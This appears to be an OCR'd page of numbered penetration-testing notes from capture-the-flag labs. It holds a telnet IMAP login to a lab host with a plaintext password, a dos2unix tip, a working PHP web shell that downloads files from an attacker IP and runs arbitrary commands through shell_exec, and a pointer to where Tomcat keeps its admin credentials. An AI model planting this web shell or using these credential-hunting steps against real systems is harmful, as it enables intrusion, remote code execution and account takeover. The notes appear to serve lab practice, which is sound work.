 
===============================


155
Telnet IMAP login


1. telnet brainfuck.htb 143
2. a1 LOGIN orestis kHGuERB29DNiNE
3. a2 LIST "" "*"
4. a3 EXAMINE INBOX
5. a4 FETCH 1 BODY[]
6. a5 FETCH 2 BODY[]






==============================
156


convert text files from microsoft format into unix


dos2unix filename


===============================
157
php scripts file upload and command exec




<?php
if (isset($_REQUEST['fupload'])) {
        file_put_contents($_REQUEST['fupload'], file_get_contents("http://10.10.14.10:8000/" . $_REQUEST['fupload']));
};
if (isset($_REQUEST['fexec'])) {
        echo "<pre>" . shell_exec($_REQUEST['fexec']) . "</pre>";
};
?>
EOD;


===================================
158
tomcat admin password
in most cases, the file containing this information can be in two places:


the directory where tomcat is installed
a directory starting with tomcat in /etc/
The file is named tomcat-users.xml.






